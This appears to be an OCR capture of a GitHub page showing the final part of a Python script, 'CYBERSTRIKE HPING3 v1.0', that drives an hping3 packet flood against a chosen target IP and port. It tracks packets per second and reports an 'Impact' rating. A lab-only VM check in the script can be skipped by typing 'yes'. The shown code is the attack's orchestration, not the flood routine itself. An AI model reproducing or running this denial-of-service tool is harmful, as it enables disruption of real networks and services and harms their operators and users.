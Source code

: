 ````

    if os.name == 'posix' and os.geteuid() != 0:
        console.print("[red] This script requires root privileges. Run with sudo.[/red]")
        sys.exit(1)

    if not check_virtual_machine():
        console.print("[red] Not running in a VM. Ensure this is a lab environment.[/red]")
        if input("Continue anyway? (yes/no): ").lower() != "yes":
            sys.exit(1)

    log_resources()
    
    if not interactive_menu():
        return

    stats["start_time"] = time.time()
    attack_running = True
    with Progress(
        TextColumn("[progress.description]{task.description}"),
        BarColumn(),
        "[progress.percentage]{task.percentage:>3.0f}%",
        TimeRemainingColumn(),
        console=console
    ) as progress:
        task = progress.add_task("[cyan]Attacking...", total=config.duration)
        threading.Thread(target=run_hping3, daemon=True).start()
        threading.Thread(target=monitor_stats, args=(progress, task), daemon=True).start()

        try:
            time.sleep(config.duration)
        except KeyboardInterrupt:
            console.print("[red] Attack interrupted by user.[/red]")
            secure_log("Attack interrupted")
        finally:
            attack_running = False
            subprocess.run(["pkill", "hping3"], check=False)

    duration = time.time() - stats["start_time"]
    rps = stats["packets_sent"] / max(duration, 1)
    impact = "Moderate" if stats["packets_received"] > 0 else "Low"
    table = Table(title="CYBERSTRIKE HPING3 v1.0 - FINAL REPORT")
    table.add_column("Metric", style="cyan")
    table.add_column("Value", style="green")
    table.add_row("Target", f"{config.target_ip}:{config.port}")
    table.add_row("Duration", f"{duration:.2f}s")
    table.add_row("Impact", impact)
    table.add_row("Packets Sent", str(stats["packets_sent"]))
    table.add_row("Packets Received", str(stats["packets_received"]))
    table.add_row("RPS", f"{rps:.2f}")
    console.print(table)
    secure_log(f"Final Report: RPS={rps:.2f}, Impact={impact}")

if __name__ == "__main__":
    try:
        main()
    except Exception as e:
        console.print(f"[red] Critical error: {e}[/red]")
        secure_log(f"Critical error: {e}", "ERROR")
````
<img width="917" height="699" alt="image" src="https://github.com/user-attachments/assets/4f06783e-bed0-4e04-a24d-b4bfb9b23dea" />
